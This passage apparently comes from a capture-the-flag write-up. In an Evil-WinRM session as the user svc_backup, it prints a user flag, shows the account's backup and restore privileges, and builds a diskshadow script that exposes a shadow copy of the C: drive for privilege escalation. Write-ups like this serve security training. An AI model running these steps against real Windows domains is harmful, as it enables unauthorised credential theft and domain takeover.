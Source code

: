 The user flag is `3920bb317a0bef51027e2852be64b543`.

```bash
Evil-WinRM* PS C:\Users\svc_backup\Desktop> type user.txt
3920bb317a0bef51027e2852be64b543

```

The user `svc_backup` has the `SeBackupPrivilege` and `SeRestorePrivilege`, which can be abused for Domain Administrator privilege escalation.

```bash
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


```

A `diskshadow.txt` script has been created to prepare for a volume shadow copy of the C: drive.
```bash
*Evil-WinRM* PS C:\ProgramData> cd temp
*Evil-WinRM* PS C:\ProgramData\temp> echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
*Evil-WinRM* PS C:\ProgramData\temp> echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
*Evil-WinRM* PS C:\ProgramData\temp> echo "create" | out-file ./diskshadow.txt -encoding ascii -append 
*Evil-WinRM* PS C:\ProgramData\temp> echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append
*Evil-WinRM* PS C:\ProgramData\temp> ls
```

The `diskshadow.txt` script is confirmed. It will create a persistent shadow copy of the C: drive and expose it as the Z: drive.

```bash
*Evil-WinRM* PS C:\ProgramData\temp> cat diskshadow.txt
 
set context persistent nowriters
add volume c: alias temp
create
expose %temp% z:

```
